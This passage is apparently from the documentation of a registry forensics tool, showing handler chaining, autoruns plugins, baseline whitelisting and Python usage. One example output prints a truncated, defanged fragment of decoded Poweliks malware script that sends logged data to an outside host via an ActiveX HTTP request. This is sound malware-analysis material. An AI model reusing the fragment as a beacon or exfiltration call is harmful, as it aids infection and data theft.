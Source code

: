  [+] b64_decode - Decode the input data as base64 string
 [+] b64_encode - Encode the input data to base64 string
 [+] decode_vbe - Attempts to VBE decrypt the input data
 [+] nothing - Do nothing, reserved for plugin developers...(Mainly used when only custom handler is required)
 [+] entropy - entropy() -> Calculates the entropy of the input data
</pre>

The registry handlers can be chained, like the ones from CyberChef.
* Let's say you want to get the same data as before, but this time, dump the value_content to a file.
<pre>
-s "examples/poweliks.dat" -rh "decode_vbe,dump_to_file<param>/tmp/script.vbe" -ff "value_name,value_content" -p "parser -qv Software\Microsoft\Windows\CurrentVersion\Run\(default)"
</pre>
Result:
<pre>
cat /tmp/script.vbe | head -c 120

function log(l){try{x=new ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","hxxp://faebd7[.]com/log?log="+l,false);x
</pre>

## Plugins: <a name="plugins-main"></a>
<pre>
-s "examples/poweliks.dat" -p "plugin_name < plugin_params >,plugin_name < plugin_params >"
</pre>

Following command would execute all specified plugins against all loaded hives:
<pre>
-p "autoruns,office"
</pre>


## Baseline: <a name="baseline-main"></a>
It's still in beta version (a feature from regparser, with low attention rate, but i still think that it's usefull)

* Create a baseline file (Whitelisted entries) on vanilla-clean machine: 
  <pre>-s "/hives/baseline/clean" -o baseline/autoruns.bl -f sqlite -p "autoruns"</pre>

* Only the items NOT present in the autoruns.bl will be printed 
  <pre>
  -s "/hives/offline_reg_file" -p "autoruns -b"
  Note: -b force the plugin to load a baseline file (default: baseline/%name_of_plugin.bl%)
  </pre>

## Code Usage: <a name="code-usage"></a>

## Functions: <a name="code-usage-functions"></a>
RegMagnet functions can be called via **exec_action** which accepts a function name and parameters:
<pre>
items = []
items = parser.exec_action(action_name='query_key', parameters=(parser, r'Microsoft\Windows\CurrentVersion\Run', _hive_file))
</pre>
